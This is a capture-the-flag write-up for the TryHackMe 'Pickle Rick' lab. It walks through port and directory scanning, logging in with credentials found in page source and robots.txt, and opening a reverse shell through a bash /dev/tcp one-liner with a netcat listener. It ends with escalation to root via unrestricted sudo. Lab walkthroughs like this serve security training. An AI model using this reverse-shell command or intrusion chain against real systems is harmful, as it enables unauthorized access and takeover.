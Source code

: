 ![Pickle Rick Cover Image](Pickle_Rick.jpeg)
# Pickle Rick CTF Writeup

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 17:59 GMT
Nmap scan report for 10.10.32.121
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 463661da27ac12579f77e04349112ba9 (RSA)
|   256 30d8339c46870d29365ff6770c7f31c3 (ECDSA)
|_  256 f35aa4804bd71f7d68a4735ad4e9e489 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I can see that there is a website hosted on port 80. Browsing to the website, it seems to be a pretty uninteresting page. So I decide to do a Gobuster scan.

## Gobuster Scan
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```
Checking **/robots.txt** I see there is some text, I first thought maybe it could be a directory, but trying to browse to it returns a **404 Not Found** so I noted it down anyway, _maybe it'll come in handy later..._

**/assets** just contains images, CSS, and JavaScript files but nothing useful.

**/portal.php** redirects straight to the **/login.php** page.

At this point I thought I'd view the source code of the pages and there just happened to be some useful information waiting for me in the HTML of **/index.html**
```
Note to self, remember username!
Username: R1ckRul3s
```

Well, now we have a username, maybe we can try guess some passwords for the login page. Remembering the text we found before in **/robots.txt**, maybe that could be a possible password... SUCCESS! I'm logged in and redirected to **/portal.php**. It's a dashboard where I can run system commands on the machine.

## Foothold
Running the command `ls`, it returns a list of files in the directory of the webserver:
```
Sup3rS3cretPickl3Ingred.txt   <-- This is the first flag we need for the CTF
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Trying to read files using `cat`, it returns that the command is blocked. Instead, I decided to get a shell on the machine.

- First I started a listener: `nc -nvlp <port>`
- Then I ran this command to get a reverse shell: `bash -c "bash -i >& /dev/tcp/<ip_address>/<port> 0>&1"`

A shell on the machine! Now I can read the **Sup3rS3cretPickl3Ingred.txt** file to get the first flag.

Changing directory to **/home** I see there are two home directories, **rick** and **ubuntu**. Moving into **/home/rick** I see the second flag needed for the CTF.

## Privilege Escalation (root)
Running `sudo -l` to check if the user had any sudo privileges returned:
```
User www-data may run the following commands on ip-10-10-153-73.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
Fantastic! I can run any command I want, using sudo, with NO PASSWORD!

I run `sudo /bin/bash` spawns a root shell!

Changing directory to **/root**, I find the final flag needed to complete the CTF!

TryHackme Pickle Rick CTF: [https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

